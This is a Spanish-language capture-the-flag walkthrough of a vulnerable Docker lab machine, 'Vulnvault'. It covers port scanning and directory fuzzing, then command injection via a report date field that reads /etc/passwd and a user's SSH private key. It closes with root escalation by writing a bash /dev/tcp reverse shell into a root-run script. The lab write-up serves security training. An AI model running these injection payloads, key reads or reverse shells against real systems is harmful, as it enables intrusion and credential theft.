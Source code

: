 # **Máquina: Vulnvault**

### **Dificultad:** Fácil

### 📝 **Descripción:**


### 🎯 **Objetivo:**


![Logo](Imágenes/2025-05-17_23-29.png)

---

## 🖥️ **Despliegue de la máquina**

Descargamos el archivo `vulnvault.zip`, lo descomprimimos y desplegamos la máquina usando el script `auto_deploy.sh` proporcionado. Esto inicia la máquina vulnerable dentro de un contenedor Docker:

```bash
unzip vulnvault.zip
sudo bash auto_deploy.sh vulnvault.tar
```

![Despliegue](Imágenes/Capturas.png)

---

## 📡 **Comprobación de conectividad**

Verificamos la conexión con un simple `ping` a la IP asignada (172.17.0.3):

```bash
ping -c1 172.17.0.3
```

![Ping](Imágenes/Capturas_1.png)

---

## 🔍 **Escaneo de puertos**

Ejecutamos un escaneo de puertos completo con `nmap`:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.3 -oG allPorts.txt
```

Puertos descubiertos:

* **22/tcp** – SSH
* **80/tcp** – HTTP

![Puertos](Imágenes/Capturas_2.png)

Posteriormente, realizamos un escaneo más detallado sobre los puertos encontrados:

```bash
nmap -sCV -p22,80 172.17.0.3 -oN target.txt
```

![Servicios](Imágenes/Capturas_3.png)

---

Entramos al servico web que se encunetra alojado en http://172.17.0.3/, y es una pagina para generar reportes y podemos subir archivos, voy a intertar hacer un revellshel con php
![Pagina](Imágenes/Capturas_4.png)

Use gobuster dir -u http://172.17.0.3/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -add-slash -b 403,404 -x php,html,txt para realizar fuzzing y se encontraron:
/index.php            
/upload.html          
/upload.php           
/old      
![Fuzzing](Imágenes/Capturas_5.png)

Al revisar todos el que me llamo la atencin fue http://172.17.0.3/upload.php ya que mustra los archivos subidos y aqui podriamos ejecutar nuestro revellshell
![Ejecutar](Imágenes/Capturas_6.png)

Voy a obtener el .php de https://github.com/pentestmonkey/php-reverse-shell se copia el codigo y se guarga nano revellshell.php, despues se sube el archivo.

![php](Imágenes/Capturas_7.png)

---

![subida](Imágenes/Capturas_8.png)

Al subir el archivo no muestra nada despues dek mensaje asi que que se procede a realizar la segunda opcion

Al estar en http://172.17.0.3/index.php y subir un reporte noto que me muestra una ruta donde se guarda el reporte /var/www/html/reportes/reporte_1747547683.txt y en la parte de abajo nos dice que hay que tener cuidado con inyectar comandos maliciosos
![Inyeccion](Imágenes/Capturas_9.png)

Se probo con varios metodos el que me dio resultado fue en nombre del reporte no es necesario poner algo espesifico y en la fecha el comando que se quiera ejecutar con ; al inicio, yo busque los usuarios que exiate con; ;cat /etc/passwd y se encontro:
samara
![Usuarios](Imágenes/Capturas_10.png)

Busque informacion del directorio del usuario encontrado:
;ls -la /home/samara
Y encotre archivos .txt que no pude leer asi que ejecute ;la -la /home/samara/.ssh y encontre el archivo id_rsa lo logre leer con ;cat /home/samara/.ssh/id_rsa copie el archivo y lo pege en mi maquina para su uso
![Usuarios](Imágenes/Capturas_11.png)

---

![Usuarios](Imágenes/Capturas_12.png)

Copias el archivo en nano id_rsa cambiamos los permisos chmod 700 id_rsa y ejecutamos ssh -i id_rsa samara@172.17.0.3 para entrar con exito al servicio SSH
![Usuarios](Imágenes/Capturas_13.png)

Primero, ejecute `ps aux` para identificar procesos en ejecución ya que no econtre nada con sudo -l o find / -perm -4000 2>/dev/null, descubriendo que `/usr/local/bin/echo.sh` se ejecutaba en bucle como root. Entre al directorio con `cd /usr/local/bin` y listó archivos con `ls`, encontrando `echo.sh`. Intentó editar con `nano`, pero falle por el valor de `TERM`, que solucione con `export TERM=xterm`. Luego, use `nano echo.sh` para insertar una reverse shell: `bash -i >& /dev/tcp/172.17.0.1/443 0>&1`. Finalmente, confirme la edición con `cat echo.sh` y ejecute /bin/bashbash -i >& /dev/tcp/172.17.0.1/443 0>&1 para en otra terminal ejecutar sudo nc -lvnp 443 y tener acceso a la terminal root.
![Usuarios](Imágenes/Capturas_14.png)

---

![Usuarios](Imágenes/Capturas_15.png)


